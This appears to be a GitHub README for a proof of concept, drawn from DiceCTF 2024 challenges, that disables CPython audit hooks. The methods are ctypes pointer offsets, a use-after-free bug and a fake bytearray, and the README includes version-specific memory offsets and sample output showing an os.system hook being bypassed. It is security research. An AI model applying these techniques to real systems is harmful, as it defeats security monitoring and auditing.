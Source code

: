 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.4 (main, Jun  7 2024, 06:33:07) [GCC 14.1.1 20240522] on linux
Python 3.12.3 (tags/v3.12.3:f6650f9ad7, Jun 24 2024, 16:32:34) [GCC 14.1.1 20240522] on linux
Python 3.12.1 (tags/v3.12.1:2305ca5144, Jun 24 2024, 18:55:02) [GCC 14.1.1 20240522] on linux
Python 3.11.9 (main, Jun 23 2024, 04:47:27) [GCC 14.1.1 20240522] on linux
```

## Offsets
### For ctypes
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
if sys.version_info[:2] == (3, 12):
    if sys.version_info[2] <= 3:
        PTR_OFFSET = [0x41448, -0x11df0] # <= 3.12.3
    else:
        PTR_OFFSET = [0x41448, -0x11e20] # for python3.12.4
else:
    # python 3.11
    PTR_OFFSET = [0xe00, -0xe388]
```

### For UAF
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC-no-ctypes.py
# offset for audit hook set by Python and C
if sys.version_info[:2] == (3, 12):
    if sys.version_info[2] <= 3:
        PTR_OFFSET = [24, 48, 0x468f0, -0xc948] # <= 3.12.3
    else:
        PTR_OFFSET = [24, 48, 0x46920, -0xc948] # for python3.12.4
else:
    # there are multiple offsets for 3.11? check the result of POC-no-ctypes.py
    PTR_OFFSET = [24, 48, 0x4d558, 0x3e3d0]
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
> ref: <https://maplebacon.org/2024/02/dicectf2024-irs/>

[UAF POC](./UAF-issue91153.md)
### How to use
```bash
# or ./build311.sh
# build the helper binary
./build.sh
# brute-force the offsets
./POC-no-ctypes.py
# verify the offsets works
./POC2-no-ctypes.py
```

## Smash Audit hook with fake bytearray
> ref: <https://www.da.vidbuchanan.co.uk/blog/35c3ctf-collection-writeup.html> and <https://github.com/gousaiyang/my-ctf-challenges/tree/master/PyAuCalc>  
> more context: <https://github.com/DavidBuchanan314/unsafe-python>

### How to use
```bash
./build.sh
./POC-fake-bytearray.py
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
- [ ] Use <https://bugs.python.org/issue43838> to smash it?
